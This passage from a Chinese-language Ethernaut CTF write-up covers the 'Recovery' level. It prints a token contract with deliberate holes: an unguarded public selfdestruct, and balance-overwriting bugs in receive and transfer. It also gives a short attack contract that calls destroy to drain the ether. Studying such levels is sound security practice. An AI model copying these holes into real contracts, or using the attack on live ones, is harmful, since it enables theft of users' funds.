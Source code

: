 ```solidity
  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

### 分析

主要的难点就是找不到合约的地址，不过所有交易都是透明的，可以直接在etherscan上查到交易，或者直接在metamask钱包里面查看交易就能获得合约的地址。找到合约地址后调用destroy函数就行。

```solidity
pragma solidity ^0.8.0;

interface ISimpleToken {
    function destroy(address payable _to) external;
}

contract SimpleToken {
    address levelInstance;

    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }

    function withdraw() public {
        ISimpleToken(levelInstance).destroy(payable(msg.sender));
    }
}
```

## Alien Codex
